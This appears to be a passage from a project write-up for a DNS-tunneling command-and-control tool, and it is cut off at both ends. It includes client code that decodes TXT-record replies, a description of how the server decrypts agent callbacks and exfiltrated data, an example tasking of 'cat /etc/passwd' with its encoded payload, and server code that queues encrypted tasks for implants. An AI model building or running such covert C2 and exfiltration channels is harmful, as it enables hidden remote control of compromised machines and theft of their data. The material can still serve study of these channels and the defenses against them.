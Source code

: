 ```python

        for rr in reply.rr:
            if rr.rtype == QTYPE.TXT:
                response_data = rr.rdata.data
                decoded_response = decode_response(response_data)
                return decoded_response
        return None
    
    except socket.timeout:
        print("[X] Timeout error from DNS server")
        return None
    finally:
        sock.close()
```

When this request is received by the server, first check that the FQDN has the **EXPECTED_DOMAIN** to filter incoming requests. If this domain is not sent, the server responds as a generic response in a **TXT record**.

For a valid request, the server handles the data, decodes the base64, and decrypts the AES, then checks for the request type (callback or exfiltration). If the request is a callback, the server takes the **agent_id** to update the last time of connection and check for pending tasks.

If there is a pending task, the server responds with the agent task also encrypted and encoded in a **TXT record.**

```txt
For: cat /etc/passwd
Encodedpayload: MjI3NDRhYjIzNTU0N2M0YzRhYmVkMDk2ZGE1YTdmYmQyNWQzZjY4OWQ2ZjE4ZDlkOTc4MTc4ZWI0NjRkYmRiZg
```

The encoded response is fragmented in chunks of 255 bytes because this is the limit for the single **TXT records**. When this is handled in the client, it assembles the **TXT record** chunks in a single b64 string to be decoded and decrypted.

```python

# Specific callback handle method

def take_callback(agent_id):
    update_callback(agent_id)
    current_task = get_task(agent_id)

    SESSIONS = read_json_file(SESSIONS_DATA)

    formated_response = current_task

    if current_task != NO_TASK_RESPONSE:
        message_id = random.randint(1, 1_000_000)
        formated_response = f"{str(message_id)}:{current_task}"
        init_message(agent_id, message_id, current_task)

    encoded_task = encrypt_string(AES_KEY, formated_response)

    return encoded_task

# Handle request methods

def handle(head):
    decrypted_data = decode_fqdn(head)
    is_callback = not is_json(decrypted_data)

    response = ""

    if is_callback:
```